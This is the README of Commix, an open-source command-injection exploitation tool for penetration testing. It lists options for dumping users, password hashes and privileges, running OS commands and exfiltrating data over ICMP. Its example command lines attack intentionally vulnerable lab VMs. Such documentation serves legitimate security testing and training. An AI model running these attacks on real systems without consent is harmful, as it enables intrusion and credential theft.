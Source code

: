 	                                       __
	   ___    ___     ___ ___     ___ ___ /\_\   __  _ 
	  /'___\ / __`\ /' __` __`\ /' __` __`\/\ \ /\ \/'\
	 /\ \__//\ \L\ \/\ \/\ \/\ \/\ \/\ \/\ \ \ \\/>  </
	 \ \____\ \____/\ \_\ \_\ \_\ \_\ \_\ \_\ \_\/\_/\_\
	  \/____/\/___/  \/_/\/_/\/_/\/_/\/_/\/_/\/_/\//\/_/ { v0.1b }

	+--
	Automated All-in-One OS Command Injection and Exploitation Tool
	Copyright (c) 2015 Anastasios Stasinopoulos (@ancst)
	+--

#General Information

Commix (short for [comm]and [i]njection e[x]ploiter) has a simple environment and it can be used, from web developers, penetration testers or even security researchers to test web applications with the view to find bugs, errors or vulnerabilities related to command injection attacks. By using this tool, it is very easy to find and exploit a command injection vulnerability in a certain vulnerable parameter or string. Commix is written in Python programming language.


#Disclaimer
The tool is only for testing and academic purposes and can only be used where strict consent has been given. Do not use it for illegal purposes!!


#Requirements
[Python](http://www.python.org/download/) version **2.6.x** or **2.7.x** is required for running this program.

#Installation

Commix comes pre-installed on the following Linux distributions:

- [BlackArch](http://blackarch.org/)

Download commix by cloning the Git repository:

    git clone https://github.com/stasinopoulos/commix.git commix


#Usage
    Usage: python commix.py [options]

####Options
    -h, --help            Show help and exit.
    --verbose             Enable the verbose mode.
    --install             Install 'commix' to your system.
    --version             Show version number and exit.
    --update              Check for updates (apply if any) and exit.

####Target
    This options has to be provided, to define the target URL.

    --url=URL           Target URL
    --url-reload        Reload target URL after command execution.

####Request
    These options can be used, to specify how to connect to the target
    URL.

    --host=HOST         HTTP Host header.
    --referer=REFERER   HTTP Referer header.
    --user-agent=AGENT  HTTP User-Agent header.
    --cookie=COOKIE     HTTP Cookie header.
    --random-agent      Use a randomly selected HTTP User-Agent header.
    --headers=HEADERS   Extra headers (e.g. 'Header1:Value1\nHeader2:Value2').
    --proxy=PROXY       Use a HTTP proxy (e.g. '127.0.0.1:8080').
    --auth-url=AUTH_..  Login panel URL.
    --auth-data=AUTH..  Login parameters and data.
    --auth-cred=AUTH..  HTTP Basic Authentication credentials (e.g.
                        'admin:admin').
####Enumeration
    These options can be used, to enumerate the target host.

    --current-user      Retrieve current user name.
    --hostname          Retrieve current hostname.
    --is-root           Check if the current user have root privs.
    --sys-info          Retrieve system information.
    --users             Retrieve system users.
    --passwords         Retrieve system users password hashes.
    --privileges        Retrieve system users privileges.

####Injection
    These options can be used, to specify which parameters to inject and
    to provide custom injection payloads.

    --data=DATA         POST data to inject (use 'INJECT_HERE' tag to specify
                        the testable parameter).
    --suffix=SUFFIX     Injection payload suffix string.
    --prefix=PREFIX     Injection payload prefix string.
    --technique=TECH    Specify a certain injection technique : 'classic',
                        'eval-based', 'time-based' or 'file-based'.
    --maxlen=MAXLEN     The length of the output on time-based technique
                        (Default: 10000 chars).
    --delay=DELAY       Set Time-delay for time-based and file-based
                        techniques (Default: 1 sec).
    --base64            Use Base64 (enc)/(de)code trick to prevent false-
                        positive results.
    --tmp-path=TMP_P..  Set remote absolute path of temporary files directory.
    --root-dir=SRV_R..  Set remote absolute path of web server's root
                        directory (Default: /var/www/).
    --icmp-exfil=IP_..  Use the ICMP exfiltration technique (e.g.
                        'ip_src=192.168.178.1,ip_dst=192.168.178.3').
    --alter-shell       Use an alternative os-shell (Python). Available only
                        for 'tempfile-based' injections.
    --os-cmd=OS_CMD     Execute a single operating system command.


####Usage Examples
**Exploiting [Damn Vulnerable Web App] (http://www.dvwa.co.uk/):**

    python commix.py --url="http://192.168.178.58/DVWA-1.0.8/vulnerabilities/exec/#" --data="ip=INJECT_HERE&submit=submit" --cookie="security=medium; PHPSESSID=nq30op434117mo7o2oe5bl7is4"
    
**Exploiting [php-Charts 1.0] (http://www.exploit-db.com/exploits/25496/) using injection payload suffix & prefix string:**

    python commix.py --url="http://192.168.178.55/php-charts_v1.0/wizard/index.php?type=INJECT_HERE" --prefix="'" --suffix="//"
    
**Exploiting [OWASP Mutillidae] (https://www.owasp.org/index.php/Category:OWASP_Mutillidae) using extra headers and HTTP proxy:**

    python commix.py --url="http://192.168.178.46/mutillidae/index.php?popUpNotificationCode=SL5&page=dns-lookup.php" --data="target_host=INJECT_HERE" --headers="Accept-Language:fr\nETag:123\n" --proxy="127.0.0.1:8081"

**Exploiting [Persistence] (https://www.vulnhub.com/entry/persistence-1,103/) using ICMP exfiltration technique :**

    su -c "python commix.py --url="http://192.168.178.8/debug.php" --data="addr=127.0.0.1" --icmp-exfil="ip_src=192.168.178.5,ip_dst=192.168.178.8""

**Exploiting [Kioptrix: 2014 (#5)] (https://www.vulnhub.com/entry/kioptrix-2014-5,62/) using custom user-agent and specified injection technique:**

    python commix.py --url="http://192.168.178.6:8080/phptax/drawimage.php?pfilez=INJECT_HERE&pdf=make" --user-agent="Mozilla/4.0 Mozilla4_browser" --technique="file-based" --root-dir="/"


####Command injection testbeds
A collection of pwnable VMs, that includes web apps vulnerable to command injections.
- [Damn Vulnerable Web App] (http://www.dvwa.co.uk/)
- [OWASP: Mutillidae] (https://www.owasp.org/index.php/Category:OWASP_Mutillidae)
- [bWAPP: bee-box (v1.6)] (http://www.itsecgames.com/)
- [Persistence] (https://www.vulnhub.com/entry/persistence-1,103/)
- [Pentester Lab: Web For Pentester] (https://www.vulnhub.com/entry/pentester-lab-web-for-pentester,71/)
- [Pentester Academy: Command Injection ISO: 1] (https://www.vulnhub.com/entry/command-injection-iso-1,81/)
- [SpiderLabs: MCIR (ShelLOL)](https://github.com/SpiderLabs/MCIR/tree/master/shellol)
- [Kioptrix: 2014 (#5)](https://www.vulnhub.com/entry/kioptrix-2014-5,62/)
- [w3af-moth] (https://github.com/andresriancho/w3af-moth/)
- [...]

####Exploitation Demos
- [Exploiting DVWA](https://www.youtube.com/watch?v=PT4uSTCxKJU)
- [Exploiting bWAPP](https://www.youtube.com/watch?v=zqI8NcHfboo)

[![][img]][txt]
[img]: https://cdn3.iconfinder.com/data/icons/peelicons-vol-1/50/Twitter-32.png (Follow @commixproject :))
[txt]: http://www.twitter.com/commixproject
